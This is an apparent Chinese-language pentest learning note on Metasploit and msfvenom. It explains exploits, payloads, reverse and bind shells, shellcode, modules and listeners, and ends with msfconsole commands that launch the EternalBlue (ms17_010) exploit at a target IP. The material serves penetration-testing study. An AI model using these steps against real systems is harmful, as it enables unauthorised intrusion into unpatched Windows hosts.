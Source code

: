 # msfvenom练习

msfvenom是msfpayload,msfencode的结合体,它的优点是单一,命令行,和效率.利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线

## 1、msf基本功能

渗透攻击（Exploit）

渗透攻击是指由攻击者或者渗透测试者利用系统、应用或服务中的安全漏洞，所进行的攻击行为。

流行的攻击技术包括：缓冲区溢出、Web应用程序漏洞攻击，以及利用配置错误等。



攻击载荷（Payload）

攻击载何是我们期望目标系统在被渗透攻击后而执行的代码。在MSF框架中可以自由的选择、传送和植入。比如，反弹式shell是一种从目标主机到攻击主机创建网络连接，并提供命令行shell的攻击载荷。bind shell攻击载荷则在目标主机上将命令行shell绑定到一个打开的监听端口，攻击者可以连接这些端口来取得shell交互。



溢出代码（Shellcode）

shellcode是在渗透攻击时作为攻击载荷运行的一组机器指令。shellcode通常用汇编语言编写。在大多数情况下，目标系统执行了shellcode这一组指令后，才会提供一个命令行shell或者Meterpreter shell，这也是shellcode名称的由来。



模块（Module）

在MSF中，一个模块是指MSF框架中所使用的一段软件代码组件。在某些时候，你可能会使用一个渗透攻击模块（Exploit module），也就是用于实际发起渗透攻击的软件组件。而在其它时候，则可能使用一个辅助模块（auxiliary module），用来扫描一些诸如扫描或系统查点的攻击动作。



监听器（Listener）

监听器是MSF中用来等待连入网络连接的组件。举例来说，在目标主机被渗透攻击之后，它可能会通过互联网回连到攻击主机上，而监听器组件在攻击主机上等待被渗透攻击的系统来连接，并负责处理这些网络连接。

## 2、ms17_010

```
 #进入msf
msfconsole

#数据库搜索ms17-010
search ms17-010

#进入漏洞
use windows/smb/ms17_010_eternalblue

#设置被攻击者的ip
set rhosts 192.168.5.59

#运行
run

#解决乱码
chcp 65001
```
